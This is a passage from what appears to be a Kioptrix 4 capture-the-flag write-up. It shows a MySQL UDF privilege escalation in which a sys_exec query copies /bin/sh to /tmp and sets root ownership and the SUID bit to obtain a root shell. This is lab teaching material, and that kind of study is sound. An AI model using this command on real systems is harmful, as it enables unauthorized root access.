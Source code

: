 ![UDF](/assets/img/posts/kioptrix4/10.png)

### Method 1
We use sys_exec function to copy /bin/sh to /tmp directory and change its ownership to root and its permissions to SUID and SGID so we can run that sh program as root and therefore get a root shell.

```bash
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
exit
```

![sys_exec](/assets/img/posts/kioptrix4/11.png)
